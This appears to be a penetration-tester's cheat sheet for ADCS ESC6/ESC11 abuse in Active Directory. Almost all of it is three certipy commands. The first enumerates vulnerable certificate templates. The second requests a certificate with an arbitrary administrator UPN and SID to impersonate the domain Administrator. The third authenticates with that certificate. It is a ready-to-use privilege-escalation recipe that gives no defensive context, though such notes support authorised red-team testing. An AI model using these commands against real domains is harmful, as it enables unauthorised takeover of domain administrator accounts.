 # ADCS ESC6/ESC11

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```
## 2. Request a cert that impersonates Administrator
```
certipy req -u <username> -p '<password>' -target <CA_FQDN> -ca <CA_NAME> \
            -dc-ip <DC_IP> \
            -dc-host <DC_HOST> \
            -template <ESC6_TEMPLATE> \
            -upn 'administrator@<DOMAIN>' -sid <ADMIN_SID>
```

## 3. Authenticate
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>
```
